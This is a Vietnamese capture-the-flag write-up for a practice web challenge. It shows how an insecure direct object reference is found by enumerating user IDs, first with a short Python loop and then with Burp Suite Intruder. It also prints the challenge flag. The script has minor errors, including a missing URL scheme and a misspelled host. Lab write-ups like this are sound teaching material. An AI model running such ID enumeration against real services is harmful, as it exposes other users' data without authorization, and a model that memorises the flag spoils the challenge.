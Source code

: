 > Một lỗ hổng rất cơ bản! Nhưng nếu nó xảy ra thì hậu quả rất khủng khiếp...
> http://chal11.web.letspentest.org/


> `hint`: Cuộc dạo chơi của những con số


* Giao diện chính:

![image](https://user-images.githubusercontent.com/68783065/140600112-f78d70a0-e1e0-420e-ba7d-e24340e36255.png)



* Nhập thử với `ID` bất kỳ. Mình lấy `ID` = 1 ở đây:

![image](https://user-images.githubusercontent.com/68783065/140600135-e25e282a-e04d-4c08-93b1-9fdb558e2391.png)


* Tiếp tục với `ID` = 2

![image](https://user-images.githubusercontent.com/68783065/140600154-c6fa1489-b0d9-40cc-94bb-552e12a23248.png)


* Thử thêm một vài ID nữa. Có thể thấy được mỗi `ID` khác nhau sẽ cho ra những thông tin khác nhau theo `ID`.

*Bài này đơn giản mình code, bên dưới mình dùng burpsuite:
```python
import requests
url = 'chall11.web.lestspentest.org/user?id='
for i in range(3000):
  r = requests.get(url + f'{i}')
  if 'Flag{' in r.text:
    print(r.text)
    break ```

* Use `Burp Suite` and `Sent to intruder` to attack:


![image](https://user-images.githubusercontent.com/68783065/140600235-a4a1adbf-f7e7-49cb-b9fb-68788926ad28.png)

  * `Playload types`: `Number` vì ở đây chúng ta `brute force` `ID` là số.
  * `Range` `1-2000` với `step` = 1

![image](https://user-images.githubusercontent.com/68783065/140600300-ab3340ca-45ed-44c5-a729-b9ad3b15c3dc.png)

  * `Start attack` và lọc theo dộ dài  `Response` trả về, flag ở `ID` = 1337:



![image](https://user-images.githubusercontent.com/68783065/140600454-151d74af-d5bf-4bce-9f9d-9b4c631b9f22.png)

* Flag is: `Flag{61cb4a784e83b6109999af6f036b88bf}`


